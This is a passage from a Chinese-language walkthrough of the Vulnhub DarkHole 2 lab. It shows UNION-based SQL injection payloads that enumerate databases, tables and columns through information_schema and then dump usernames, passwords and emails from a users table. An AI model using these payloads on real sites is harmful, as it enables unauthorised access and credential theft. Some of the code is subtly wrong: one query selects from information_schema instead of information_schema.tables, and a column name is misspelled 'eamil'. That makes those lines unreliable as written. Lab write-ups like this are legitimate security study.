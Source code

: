 #### union select

使用`union`进行查询，前面已经知道表为`users`，在`git`中，先测试回显，我这里浏览器看不到啊

```
?id=-1' union select 1,2,3,4,5,6--+
```

结合前面，当`value`有值时，即回显，有四处，2，3，5，6

![](D:\stu\vulnhub\darkhole靶场\pic-2\8-4.jpg)



前面经过`git`已经知道，数据库为`mysql`，表为`users`表，不确定数据库版本，有无`information_schema`表，这里要进行测试，也是一种回顾。

```sql
?id=-1' union select 1,group_concat(schema_name),3,4,5,6 from information_schema.schemata--+
'//获取所有的数据库名

?id=-1' union select 1,group_concat(table_name),3,4,5,6 from information_schema where table_schema='darkhole_2'--+
//获取指定数据库的所有表，这里也可以是schema_name=database()
```

#### 获取当前数据库的所有表

获取两个表，一个`ssh`一个`users`

![](D:\stu\vulnhub\darkhole靶场\pic-2\8-5.jpg)



#### 爆出users下的元组

先看`users`里有什么

```sql
id=-1' union select 1,2,3,4,group_concat(column_name),6 from information_schema.columns where table_name='users'--+
```

![](D:\stu\vulnhub\darkhole靶场\pic-2\8-6.jpg)





#### 爆出users中的数据

获取到`username`和`password`看看，或者也可以再加上邮箱

```sql
id=-1' union select 1,2,3,4,group_concat(username,'||||',password,'|||||',eamil),6 from users--+
```

可以看到，这里给出一个用户名密码，而且就是登录网站时用到的

![](D:\stu\vulnhub\darkhole靶场\pic-2\8-7.jpg)

